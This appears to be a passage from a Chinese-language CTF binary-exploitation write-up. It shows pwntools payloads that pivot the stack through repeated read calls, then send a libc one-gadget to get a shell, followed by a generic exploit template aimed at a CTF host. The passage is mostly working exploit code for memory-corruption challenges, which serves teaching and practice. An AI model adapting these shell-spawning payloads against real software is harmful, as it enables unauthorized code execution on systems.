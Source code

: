 重复刚才的 1、2 的步骤

```plain
pl = b'a'*0x20+p64(stack0)+p64(read) #4
p.send(pl)

pl = b'a'*0x20+p64(stack0+0x20)+p64(read) #5
p.send(pl)
```

将 og 送入，从而 getshell

```plain
r12 = 0x000000000002f709+libc_base
og = libc_base + 0xe3afe

pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
#dbg()
p.send(pl)
```

og 的模板 exp:

```plain
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('node.yuzhian.com.cn',30686)
else:
    p = process(name)

elf = ELF(name)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

```